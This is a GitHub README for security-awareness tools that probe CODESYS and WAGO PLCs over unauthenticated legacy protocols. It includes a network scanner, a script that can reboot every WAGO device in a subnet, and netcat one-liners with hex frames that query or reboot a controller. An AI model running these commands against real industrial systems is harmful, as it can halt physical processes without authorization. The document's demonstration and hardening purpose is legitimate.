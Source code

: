 ## Description
Tis repo is a collection of tools to highlight the weaknesses of legacy protocol, and to show the importance of a cybersec configuration. 

## scan_codesys.py

This Python script benefits of discovery protocol used by CODESYS 3 (on port 1740) to gather information about PLCs on a network. 
A predefined UDP frame is sent to a broadcast address on port 1740, and answers from PLCs are collected and parsed.
This is a reminder that this port isn't secure, should be disabled. The discover feature is useful but isn't mandatory in order to use CODESYS.

### Usage

`python3 scan_codesys.py 192.168.1.255`

Example of result :

```
IP Address      Device Name          Complete Name                            Manufacturer              MAC Address
192.168.1.12   PFC300-68415F        WAGO 750-8302 PFC300 2ETH RS             WAGO                      0030DE684161
192.168.1.4    PFC200V3-48117C      WAGO 750-8210 PFC200 G2 4ETH             WAGO                      0030DE48117C
192.168.1.5    0030DE5A9782         750-8001 Basic Controller 100 2ETH       WAGO GmbH & Co. KG        37SUN31564010260523873+0000000000000176
```

## wagoservice.py

This Python script uses legacy protocol WAGO Service on port 6626, used by software like WAGO Ethernet Settings or WAGO I/O Check. 
This legacy protocol is unauthenticated. 
WAGO Ethernet Settings can be easily replaced by the Web Based Management, which is secure. 
WAGO I/O Check is used for configuration of I/O modules, but should be used only during the commissionning, ideally when the PLC isn't connected to the network. 
The script sends predefined TCP frame in order to gather information about WAGO PLCs and could be used to reboot the PLC. 
A discover function based on NMAP will WAGO devices with 6626 port open on the specified network.
When a network adress is provided, the reboot function will restart all WAGO devices... Be careful.

### Usage

`python3 wagoservice.py  <command> <address/network>`

where :
- command : info / reboot / discover
- address/network : can be a single IP address or a network in CIDN format (i.e 192.168.1.0/24)

Example and results :
```
python3 wagoservice.py discover 192.68.1.0/24
+---------------------+---------------------+---------------------+---------------------+---------------------+
| IP Address          | MAC Address         | PSN                 | SW-VER              | SN                  |
+---------------------+---------------------+---------------------+---------------------+---------------------+
| 192.168.1.1         | 00:30:DE:0A:93:56   | 750-880             | 01.08.25(16)        | SN20121115T113608-0416146#PFC|0030DE069605 |
| 192.168.1.2         | 00:30:DE:06:96:05   | 750-8001            | 01.04.02(00)        | SN20230403T202128-1738604#BC|0030DE5A9782 |
| 192.168.1.3         | 00:30:DE:5A:97:82   | 751-9301            | 04.06.03(28)        | 37SUN31564010260470190+0000000002347218 |
| 192.168.1.4         | 00:30:DE:4E:6F:EC   | 750-8302            | 04.06.01(28)        | 37SUN31564010260575922+0000000000001690 |
| 192.168.1.5         | 00:30:DE:68:41:5F   | 750-8210            | 04.05.10(27)        | 37SUN31564010260429954+0000000000000008 |
| 192.168.1.6         | 00:30:DE:48:11:7C   | 750-8217            | 03.10.10(22)        | 37SUN31564010260430577+0000000000003662 |
+---------------------+---------------------+---------------------+---------------------+---------------------+
```

## One-liner commands

Also based on WAGO Service protocol, this simple commands can be used to retrieve information or to reboot a WAGO PLC device.
Can be used directly on a WAGO Linux-based PLC.

### Get information
`echo '8812020001000100000000000000000002000801' | xxd -r -p | nc 192.168.1.10 6626`

### Reboot
`echo '8812320001000100000000000000000002000201' | xxd -r -p | nc 192.168.1.10 6626`

# Disclaimer  
This collection of tools is intended solely for legitimate and authorized use in conducting cybersecurity demonstration within a network. Users are required to obtain proper authorization from network owners or administrators before use.

The developer of this program assumes no responsibility for any unauthorized use or any consequences arising from the improper application of this tools. By using this tools, you agree that you have the necessary permissions and you assume all liability associated with its use. Please ensure compliance with all applicable laws and regulations regarding network scanning and cybersecurity practices.